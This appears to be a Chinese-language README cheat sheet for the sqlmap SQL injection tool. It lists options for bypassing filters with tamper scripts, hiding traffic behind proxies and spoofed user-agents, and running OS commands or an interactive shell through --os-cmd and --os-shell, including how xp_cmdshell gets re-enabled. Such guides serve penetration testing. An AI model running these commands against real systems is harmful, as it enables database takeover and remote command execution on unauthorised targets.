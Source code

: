 ### 简介

|名称|描述|
|:-------------:|--|
|[sqlmap](https://github.com/sqlmapproject/sqlmap)| Automatic SQL injection and database takeover tool|

### tamper详解

根据 [tamper脚本分类汇总 sqlmap_tamper.csv](files/sqlmap_tamper.csv) 中的 数据库类型 与 绕过方式，可选择合适的tamper(或自写脚本)


### 常用参数 - 强制ssl

待测网站通常是https协议 

可能出现404`[CRITICAL] page not found (404)`

加上参数即可`--force-ssl`

（在Host头最后加上`:443`这种办法一般可行但有局限性，实测中有8443端口的https无法用该方法解决）


### 常用参数 - 加快测试速度

指定数据库类型
```
--dbms Oracle
--dbms Mysql
--dbms "Microsoft Access"
```

### 常用参数 - 设置proxy代理流量

格式为：`(http|https|socks4|socks5)://address:port`

如
```
--proxy=socks5://127.0.0.1:1080
```

### 常用参数 - 设置user-agent避免指纹

随机user-agent
```
 --random-agent
```

安卓手机user-agent
```
--user-agent "Mozilla/5.0 (Linux; U; Android 2.2; en-us; Droid Build/FRG22D) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1"
```

### 常用参数 - 用*标记注入点

针对情况：伪静态 等不识别的格式

```
sqlmap -u xxx.com/index.php/Index/view/id/40*.html --dbs
```

-r 也是在请求包文件中的参数值后面加*号

### 参数 - OS命令执行

前提1：数据库为MySQL/PostgreSQL/Microsoft SQL Server
前提2：当前用户有权限使用特定的函数. 在sqlmap中查看权限用 `--privileg`

--os-shell=whoami
```
#--os-cmd=执行系统命令
sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --os-cmd=whoami 
```

--os-shell
```
sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --os-shell #交互式shell
```

实现原理：

在MySQL、PostgreSQL: sqlmap上传一个二进制库，包含用户自定义的函数sys_exec()和sys_eval() 创建的这两个函数可以执行系统命令。

在Microsoft SQL Server: sqlmap将会使用xp_cmdshell存储过程，如果被禁（在Microsoft SQL Server 2005及以上版本默认禁制），sqlmap会重新启用它，如果不存在，会自动创建。
